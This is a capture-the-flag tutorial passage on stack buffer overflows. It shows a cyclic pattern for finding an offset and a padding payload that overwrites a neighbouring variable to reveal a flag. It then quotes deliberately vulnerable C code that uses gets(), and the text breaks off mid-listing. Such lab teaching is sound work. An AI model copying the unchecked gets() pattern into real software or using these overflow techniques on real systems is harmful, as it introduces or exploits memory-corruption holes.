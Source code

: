 The manual page says:
```
gets()  reads  a  line  from  stdin into the buffer pointed to by s until either a terminating newline or EOF,
which it replaces with a null byte ('\0').  No check for buffer overrun is performed
```

if we run the binary with `./example1` we will get

```
hi! change the string to >w< and you'll get your flag!
your input:
```


you can try to brute force it by using `pwn cyclic` or `pattern create` in gef. for example:
```
pwn cyclic 16
aaaabaaacaaadaaa
```

it will create cyclic pattern that can determine spesific offset. if we input it to the system we will get
```
hi! change the string to >w< and you'll get your flag!
your input: aaaabaaacaaadaaa
string is: caaadaaa
not yet :(
keep trying!
```
if we examine carefully, we have overwritten the `string[8]` with our input. Because the size of `input` variable is 8 bytes, if we supply the gets with more than 8 character it will overflow. In this case it will overflowing `string[8]`.  

so the input has to be 8*`randomcharacter`+ >w<. Lets just A for the padding. so the payload will be
```
AAAAAAAA>w<
```

supply the payload in the binary and we got the flag.

flag `CTF{buffer_overflo0o0o0ow}`

## Overwrite return address 

given the problem in example2.c (b0f1.c)
```c
void readFlag(){
	char flag[32];
	FILE *fptr;
	fptr = fopen("flag.txt", "r");
	fread(&flag, sizeof(char), 32, fptr);
	puts(flag);
}

void vuln(){
	char string[8] = "UwU";
	char input[8];
	
	printf("your input: ");
	gets(input);

	printf("string is: %s\n", string);

	if(strcmp(string, ">w<") == 0){
		puts("so what?");
	}
	else{
```